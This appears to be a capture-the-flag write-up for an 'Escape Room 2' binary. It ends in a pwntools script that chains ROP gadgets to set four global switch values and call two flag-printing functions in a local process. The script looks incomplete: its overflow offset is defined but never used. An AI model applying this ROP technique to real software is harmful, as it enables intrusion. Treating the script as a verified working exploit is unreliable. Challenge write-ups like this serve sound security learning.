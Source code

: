 # Escape Room 2

The binary for this gives us a hint we have to deal with 4 switches and 2 buttons.

![Inline](../images/er2_1.png?raw=true)


Looking at the source code, we notice 4 global variables named switches.

![Inline](../images/er2_2.png?raw=true)


And the two functions that will load and print flags for us are conveniently named **button1** and **button2**.

![Inline](../images/er2_3.png?raw=true)

We can see that the global variables need to have a certain value in order to pass the checks.

We build our rop chain by retrieving the addresses of gadgets we need.

![Inline](../images/er2_4.png?raw=true)

![Inline](../images/er2_5.png?raw=true)

![Inline](../images/er2_6.png?raw=true)


## Exploit
Now we can build the final exploit:
```python
from pwn import *


# Our target
target = './escape-room2'
e = context.binary = ELF(target,checksec=True)
#context.log_level='debug'


io = process(target)



print(io.recv())
print(io.recv())


print("Sending the Payload NOW")


button1 =0x80492d2
button2 =0x8049384

switch1 = e.symbols['switch1']
switch2 = e.symbols['switch2']
switch3 = e.symbols['switch3']
switch4 = e.symbols['switch4']




# # Our Gadgets

pop_eax = 0xf799acdb
pop_ecx = 0xf7f7ce60
memwrite = 0xf7b19ee7

buf2ebp = 0x10

payload = ''

payload += p32(pop_eax)
payload += p32(switch1)
payload += p32(pop_ecx)
payload += p32(0xdeadbeef)
payload += p32(memwrite)


payload += p32(pop_eax)
payload += p32(switch2)
payload += p32(pop_ecx)
payload += p32(0xcafebabe)
payload += p32(memwrite)
payload += p32(button1)

payload += p32(pop_eax)
payload += p32(switch3)
payload += p32(pop_ecx)
payload += p32(0x0ece5612)
payload += p32(memwrite)



payload += p32(pop_eax)
payload += p32(switch4)
payload += p32(pop_ecx)
payload += p32(0x12345678)
payload += p32(memwrite)


payload +=p32(button2)

io.sendline(payload)

print(io.recv())
io.close()
```


